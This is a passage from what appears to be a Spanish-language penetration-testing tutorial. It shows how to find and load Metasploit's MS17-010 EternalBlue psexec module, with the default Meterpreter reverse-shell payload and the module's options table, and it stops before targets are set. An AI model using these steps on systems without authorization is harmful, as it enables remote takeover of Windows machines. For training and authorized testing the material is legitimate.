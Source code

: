 Una vez que tengamos Metasploit ejecutándose, podemos buscar nuestra aplicación de destino con el comando `search exploit`. Por ejemplo, podemos buscar la vulnerabilidad SMB que identificamos anteriormente: 

~~~
msf6 > search exploit eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
<SNIP>
EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 
   
~~~
Tip: La búsqueda puede aplicar filtros complejos como search cve:2009 type:exploit. Ver todos los filtros con búsqueda de ayuda 

Encontramos un exploit para este servicio. Podemos usarlo copiando el nombre completo del mismo y usando `USE` para usarlo: 

~~~
msf6 > use exploit/windows/smb/ms17_010_psexec

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
~~~

Antes de que podamos ejecutar el exploit, debemos configurar sus opciones. Para ver las opciones disponibles para configurar, podemos usar el comando `show options`: 

~~~
Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                                                                                yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445                                                             yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass                                                                               no        The password for the specified username
   SMBUser                                                                               no        The username to authenticate as

...SNIP...
~~~